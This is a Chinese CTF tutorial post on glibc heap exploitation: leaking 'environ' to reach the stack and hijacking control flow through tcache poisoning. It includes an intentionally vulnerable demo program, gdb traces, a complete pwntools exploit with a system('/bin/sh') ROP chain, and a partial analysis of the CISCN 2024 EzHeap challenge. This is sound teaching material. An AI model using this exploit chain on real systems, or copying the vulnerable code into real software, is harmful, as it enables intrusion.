









# 基于environ变量的堆题攻击栈空间-先知社区

> **来源**: https://xz.aliyun.com/news/16003  
> **文章ID**: 16003

---

## 写在前面

在此感谢一下pwn-Zz师傅和rbp师傅的指点，阿里嘎多

## environ概述

先来介绍一下environ，在Linux C中，environ是一个全局变量，它储存着系统的环境变量。它储存在libc中，因此environ是沟通libc地址与栈地址的桥梁。

同时environ里面存储了栈地址附近的内容，我们可以通过泄露environ变量来泄露栈地址

程序内函数的返回地址和environ变量的距离是固定的，通过gdb调试，我们可以得到这个偏移

再通过其他攻击方式来写到栈地址内，从而覆盖到我们的rip寄存器，从而实现劫持控制流的攻击



```
pwndbg> p &environ
$1 = (char ***) 0x7ffff7ffe138 <environ>
pwndbg> tele 0x7ffff7ffe138 30
00:0000│  0x7ffff7ffe138 (environ) —▸ 0x7fffffffde28 —▸ 0x7fffffffe1db ◂— 'SHELL=/bin/bash'
01:0008│  0x7ffff7ffe140 (rtld_errno) ◂— 0x2
02:0010│  0x7ffff7ffe148 ◂— 0x0
... ↓     2 skipped
05:0028│  0x7ffff7ffe160 (_r_debug) ◂— 0x1
06:0030│  0x7ffff7ffe168 (_r_debug+8) —▸ 0x7ffff7ffe190 —▸ 0x555555554000 ◂— 0x10102464c457f
07:0038│  0x7ffff7ffe170 (_r_debug+16) —▸ 0x7ffff7fe11e0 (_dl_debug_state) ◂— endbr64 
08:0040│  0x7ffff7ffe178 (_r_debug+24) ◂— 0x0
09:0048│  0x7ffff7ffe180 (_r_debug+32) —▸ 0x7ffff7fcf000 ◂— 0x10102464c457f
0a:0050│  0x7ffff7ffe188 (audit_list_string) ◂— 0x0
0b:0058│  0x7ffff7ffe190 —▸ 0x555555554000 ◂— 0x10102464c457f
0c:0060│  0x7ffff7ffe198 —▸ 0x7ffff7ffe730 ◂— 0x0
0d:0068│  0x7ffff7ffe1a0 —▸ 0x5555555572a8 (_DYNAMIC) ◂— 0x1
0e:0070│  0x7ffff7ffe1a8 —▸ 0x7ffff7ffe740 —▸ 0x7ffff7fcd000 ◂— jg 0x7ffff7fcd047
0f:0078│  0x7ffff7ffe1b0 ◂— 0x0
10:0080│  0x7ffff7ffe1b8 —▸ 0x7ffff7ffe190 —▸ 0x555555554000 ◂— 0x10102464c457f
11:0088│  0x7ffff7ffe1c0 ◂— 0x0
12:0090│  0x7ffff7ffe1c8 —▸ 0x7ffff7ffe718 —▸ 0x7ffff7ffe730 ◂— 0x0
13:0098│  0x7ffff7ffe1d0 ◂— 0x0
14:00a0│  0x7ffff7ffe1d8 —▸ 0x5555555572a8 (_DYNAMIC) ◂— 0x1
15:00a8│  0x7ffff7ffe1e0 —▸ 0x555555557388 (_DYNAMIC+224) ◂— 0x2
16:00b0│  0x7ffff7ffe1e8 —▸ 0x555555557378 (_DYNAMIC+208) ◂— 0x3
17:00b8│  0x7ffff7ffe1f0 ◂— 0x0
18:00c0│  0x7ffff7ffe1f8 —▸ 0x555555557328 (_DYNAMIC+128) ◂— 0x5
19:00c8│  0x7ffff7ffe200 —▸ 0x555555557338 (_DYNAMIC+144) ◂— 0x6
1a:00d0│  0x7ffff7ffe208 —▸ 0x5555555573b8 (_DYNAMIC+272) ◂— 0x7
1b:00d8│  0x7ffff7ffe210 —▸ 0x5555555573c8 (_DYNAMIC+288) ◂— 0x8
1c:00e0│  0x7ffff7ffe218 —▸ 0x5555555573d8 (_DYNAMIC+304) ◂— 9 /* '\t' */
1d:00e8│  0x7ffff7ffe220 —▸ 0x555555557348 (_DYNAMIC+160) ◂— 0xa /* '\n' */
```

上图是gdb调试的时候environ的内容，可以看到里面存着栈地址

## 利用思路

1. 利用某些攻击来泄露出environ里面的内容
2. 调试得到某个函数的返回地址和泄露地址的偏移
3. 在不破坏某些关键内容的情况下，覆盖rip寄存器来劫持控制流

### 利用条件：

1. 有libc地址
2. 有heap基地址
3. 能实现任意地址写

## 例题调试

下面我们通过一个简单的例题来看看最简化的攻击流程

### 题目源码（glibc-2.31）

```
#include<stdio.h> 
#include <unistd.h> 
#define num 80
void *chunk_list[num];

void init()
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}

void menu()
{
    puts("1.add");
    puts("2.delete");
    puts("3.show");
    puts("4.edit");
    puts("5.exit");
    puts("Your choice:");
}


int add()
{
    int index,size;
    puts("index:");
    scanf("%d",&index);
    puts("Size:");
    scanf("%d",&size);
    chunk_list[index] = malloc(size);
}

int delete()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    free(chunk_list[index]);
}

int edit()
{
    int size;
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("size:");
    scanf("%d",&size);
    puts("context: ");
    read(0,chunk_list[index],size);
}


int show()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("context: ");
    puts(chunk_list[index]);
}


int main()
{
    int choice;
    init();
    while(1){
        menu();
        scanf("%d",&choice);
        if(choice==5){
            exit(0);
        }
        else if(choice==1){
            add();
        }
        else if(choice==2){
            delete();
        }
        else if(choice==3){
            edit();
        }
        else if(choice==4){
            show();
        }
    }
}
```

上面是我自己写的一个堆题调试程序，基本漏洞都存在，uaf，堆溢出，图省事，在glibc-2.31下编译，可以不用考虑2.35下的tcache指针加密

### 泄露libc\_base和heap\_base

```
add(0,0x420);
add(1,0x10);
dele(0);
add(2,0x430);
show(0)
libc_base=l64()-0x1ecfd0
edit(0,0x10,b'a'*0x10)
show(0)
ru(b'a'*0x10)
heap_base=u64(rc(6).ljust(8,b'\x00'))-0x290
environ=libc_base+libc.sym['environ']
```

在2.31版本下，直接覆盖tcache的fd指针实现任意地址写，申请chunk到environ附近

再调用show函数就能泄露environ的值了

### 泄露栈地址

这是environ攻击栈空间的关键一点，我们来调试看看，理论上所有函数都能通过environ攻击实现劫持控制流

但是一般打法是在能够写入内容的函数里面劫持控制流，像上面的例题，就是在edit函数里面有写入内容的功能

所以我们计算一下edit函数和environ变量里面存储地址的偏移

我们gdb运行到edit的leave ret处来看rsp的值



```
pwndbg> tele &environ
00:0000│  0x7ffff7ffe138 (environ) —▸ 0x7fffffffde18 —▸ 0x7fffffffe1da ◂— 'SHELL=/bin/bash'
01:0008│  0x7ffff7ffe140 (rtld_errno) ◂— 0x2
02:0010│  0x7ffff7ffe148 ◂— 0x0
... ↓     2 skipped
05:0028│  0x7ffff7ffe160 (_r_debug) ◂— 0x1
06:0030│  0x7ffff7ffe168 (_r_debug+8) —▸ 0x7ffff7ffe190 —▸ 0x555555554000 ◂— 0x10102464c457f
07:0038│  0x7ffff7ffe170 (_r_debug+16) —▸ 0x7ffff7fe11e0 (_dl_debug_state) ◂— endbr64 
pwndbg> info registers 
rax            0x5                 5
rbx            0x555555555510      93824992236816
rcx            0x7ffff7ed31f2      140737352905202
rdx            0x60                96
rsi            0x5555555582a0      93824992248480
rdi            0x0                 0
rbp            0x7fffffffdcf0      0x7fffffffdcf0
rsp            0x7fffffffdce0      0x7fffffffdce0
r8             0xa                 10
r9             0x0                 0
r10            0x7ffff7f60ac0      140737353484992
r11            0x246               582
r12            0x555555555120      93824992235808
r13            0x7fffffffde00      140737488346624
r14            0x0                 0
r15            0x0                 0
rip            0x555555555408      0x555555555408 <edit+140>

pwndbg> p/x  0x7fffffffde18-0x7fffffffdce0
$1 = 0x138
pwndbg>
```

可以看到偏移是0x138，这个偏移是固定的，计算得到即可

下面我们泄露一下environ里面的内容

```
edit(0,0x40,p64(libc_base+0x1ecfd0)*2+p64(heap_base+0x290))
add(0,0x60)
add(1,0x60)
add(2,0x60)
dele(1)
dele(2)
edit(2,0x10,p64(environ))
add(1,0x60)
add(2,0x60)
show(2)
stack_addr=l64()-0x138
```

最上面的edit是用于恢复对于的largebin修改（修改用于泄露libc和heap，largebin泄露十分方便），不必理会

下面的内容是重新构造一次tcache\_attack来申请到environ附近的chunk，申请到就可以直接泄露得到environ里面的内容了，对于tcache\_attack不了解的话可以去看我的相关帖子，内容也比较简单，就是从tcachebin里面获取tcache的时候，不会对tcache的fd指针进行检查，利用uaf的话就可以申请到任意地址的chunk

### 攻击实现

```
add(0,0x80)
add(1,0x80)
add(2,0x80)
dele(0)
dele(1)
edit(1,0x10,p64(stack_addr))
add(0,0x80)
add(1,0x80)
dbg()
edit(0,0x10,b'abcd')
edit(1,0x100,b'a'*0x18+attack)
```

同样也是一次tcache\_attack来实现任意地址写，但是这次申请到的地方是栈空间附近的内容

我们来调试看看



上面是第二次edit的时候，read函数的相关参数，可以看到我们已经写到了rsp处，只需要覆盖掉rbp就能够实现劫持控制流，为了简化题目，我没有开启canary保护，有相关保护的题目我们可以直接写到rbp处，跳过canary的检测即可



可以看到，已经劫持控制流成功，到了我们想要的地方。  
例题调试就到这里，全部的攻击流程已经展示完毕，我们下面来看看ciscn2024的EzHeap这道题

### 完整EXP

```
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
fn='./test'
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
eir = 0
if eir == 1:
    p=remote("",)
elif eir == 0:
    p=process(fn)
elf=ELF(fn)

def open_gdb_terminal():
    pid = p.pid
    gdb_cmd = f"gdb -ex 'attach {pid}' -ex 'set height 0' -ex 'set width 0'"
    subprocess.Popen(["gnome-terminal", "--geometry=120x64+0+0", "--", "bash", "-c", f"{gdb_cmd}; exec bash"])

def dbg():
    open_gdb_terminal()
    pause()


sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ita = lambda : p.interactive()
l64 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
ll64 = lambda : u64(p.recv(6).ljust(8,b'\x00'))
pt = lambda s : print("leak----->",hex(s))

def menu(choice):
    sla("Your choice:\n",str(choice))
def add(index,size):
    menu(1)
    sla("index:\n",str(index))
    sla("Size:\n",str(size))
def dele(index):
    menu(2)
    sla("index:\n",str(index))

def edit(index,size,content):
    menu(3)
    sla("index:\n",str(index))
    sla("size:\n",str(size))
    sa("context: \n",content)

def show(index):
    menu(4)
    sla("index:\n",str(index))

add(0,0x420);
add(1,0x10);
dele(0);
add(2,0x430);
show(0)
libc_base=l64()-0x1ecfd0
edit(0,0x10,b'a'*0x10)
show(0)
ru(b'a'*0x10)
heap_base=u64(rc(6).ljust(8,b'\x00'))-0x290
environ=libc_base+libc.sym['environ']
edit(0,0x40,p64(libc_base+0x1ecfd0)*2+p64(heap_base+0x290))
add(0,0x60)
add(1,0x60)
add(2,0x60)
dele(1)
dele(2)
edit(2,0x10,p64(environ))
add(1,0x60)
add(2,0x60)
show(2)
stack_addr=l64()-0x138
ret=libc_base+0x0000000000022679
rdi=libc_base+0x0000000000023b6a
system=libc_base+libc.sym['system']
binsh=libc_base+next(libc.search(b'/bin/sh\x00'))
attack=p64(ret)+p64(rdi)+p64(binsh)+p64(system)

add(0,0x80)
add(1,0x80)
add(2,0x80)
dele(0)
dele(1)
edit(1,0x10,p64(stack_addr))
add(0,0x80)
add(1,0x80)
edit(0,0x10,b'abcd')
dbg()
edit(1,0x100,b'a'*0x18+attack)

ita()
```

## 2024CISCN-EzHeap（题目附件已上传）

程序的版本是2.35，许多hook已被删去，我们先来看主函数

  
菜单类堆题

### add函数

```
unsigned __int64 sub_154A()
{
  unsigned int v1; // [rsp+0h] [rbp-10h] BYREF
  int i; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  for ( i = 0; i <= 79 && *(&heap_list + i); ++i )
    ;
  if ( i <= 79 )
  {
    printf("size:");
    __isoc99_scanf("%d", &v1);
    if ( v1 >= 0x501 )
    {
      puts("error");
      exit(0);
    }
    *(&heap_list + i) = malloc(v1);
    memset(*(&heap_list + i), 0, v1);
    size_list[i] = v1;
    printf("content:");
    read(0, *(&heap_list + i), v1);
  }
  else
  {
    puts("full heap! ");
  }
  return v3 - __readfsqword(0x28u);
}
```

可以申请到0x80个chunk，不能申请大于0x500大小的chunk，可以利用largebin

chunk的index是从小到大来的，比如申请了0-5号六个chunk，1.3.5号chunk被释放，下次申请的chunk的index就逐个是1.3.5.6.7...，了解一下index的分配机制才能更好的利用chunk

### delete函数

```
unsigned __int64 dele()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("idx:");
  __isoc99_scanf("%d", &v1);
  if ( v1 > 0x4F || !*(&heap_list + v1) )
  {
    puts("error!");
    exit(0);
  }
  free(*(&heap_list + v1));                     //     *((_QWORD *)&heap_list + i) = malloc((int)v1);
  *(&heap_list + v1) = 0LL;
  return v2 - __readfsqword(0x28u);
}
```

不存在uaf漏洞

### edit函数

```
unsigned __int64 edit()
{
  unsigned int v1; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("idx:");
  __isoc99_scanf("%d", &v1);
  if ( v1 > 0x4F || !*(&heap_list + v1) )
  {
    puts("error!");
    exit(0);
  }
  printf("size:");
  __isoc99_scanf("%d", &v2);
  if ( v2 >= 0x501 )
  {
    puts("error");
    exit(0);
  }
  printf("content:");
  read(0, *(&heap_list + v1), v2);
  return v3 - __readfsqword(0x28u);
}
```

输入的大小可以由我们操控，存在堆溢出漏洞

### show函数

```
unsigned __int64 show()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("idx:");
  __isoc99_scanf("%d", &v1);
  if ( v1 > 0x4F || !*(&heap_list + v1) )
  {
    puts("error!");
    exit(1);
  }
  printf("content:");
  printf("%s", *(&heap_list + v1));
  return v2 - __readfsqword(0x28u);
}
```

printf函数来输出，遇到\x00才会截止

### sandbox

程序也开启了沙箱保护

```
unsigned __int64 sub_1395()
{
  __int64 v1; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 60LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 10LL, 0LL);
  if ( seccomp_load(v1) < 0 )
  {
    perror("seccomp_load");
    exit(1);
  }
  seccomp_release(v1);
  return v2 - __readfsqword(0x28u);
}
```

方便起见，我们直接用seccomp工具查看

```
zst@zst:~/Desktop/ciscn2024/ezheap$ seccomp-tools dump ./pwn
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
